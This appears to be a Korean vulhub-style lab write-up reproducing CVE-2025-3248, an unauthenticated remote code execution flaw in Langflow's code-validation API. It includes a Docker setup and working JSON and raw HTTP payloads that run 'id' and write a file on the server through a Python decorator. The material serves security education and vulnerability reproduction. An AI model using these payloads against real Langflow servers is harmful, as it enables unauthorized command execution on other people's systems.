






# Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)
> 화이트햇 스쿨 3기 - 이찬휘 ([`@iChanee`](https://github.com/iChanee))
> GitHub 레포지토리 - [https://github.com/iChanee/kr-vulhub](https://github.com/iChanee/kr-vulhub)
> Pull Request: [https://github.com/gunh0/kr-vulhub/pull/](https://github.com/gunh0/kr-vulhub/pull/)

<br>

---
Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---

<br>

## 환경 구성
### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)


### 실행 명령어

```bash
docker compose up -d
```


서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.

<br>

## 환경 실행 후 Langflow 인터페이스 확인
### Langflow 로그인 화면




### Langflow 프로젝트 화면




서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.

<br>

## 취약점 재현
### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json


### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

<br>

## Burp Suite를 이용해 위 요청을 보낸 결과: 


<br>

## 추가 실습 - 컨테이너 내부에 파일 생성하여 RCE 확인

아래와 같이 파일을 생성하는 Payload를 전송하여 컨테이너 내부에 `PoC successful` 메시지가 담긴 파일을 직접 생성하고 확인했습니다.

### 공격 Payload (파일 생성)

```json
{
  "code": "@exec(\"raise Exception(__import__('builtins').open('/tmp/BHS.txt','w').write('PoC successful'))\")\ndef foo():\n  pass"
}
```

### PoC 성공 시 파일 생성 결과 확인
  
